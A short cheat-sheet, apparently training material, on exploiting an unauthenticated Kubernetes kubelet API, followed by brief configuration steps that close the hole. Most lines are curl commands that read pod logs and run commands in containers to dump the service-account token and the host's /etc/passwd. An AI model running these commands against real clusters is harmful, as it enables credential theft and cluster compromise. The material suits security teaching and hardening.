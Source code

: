 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->
curl some pod

# get sensitive data

curl -XPOST -k https://$IP:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook
<!-- systemctl daemon-reload -->
systemctl restart kubelet
<!-- systemctl status kubelet -->

... run curls again
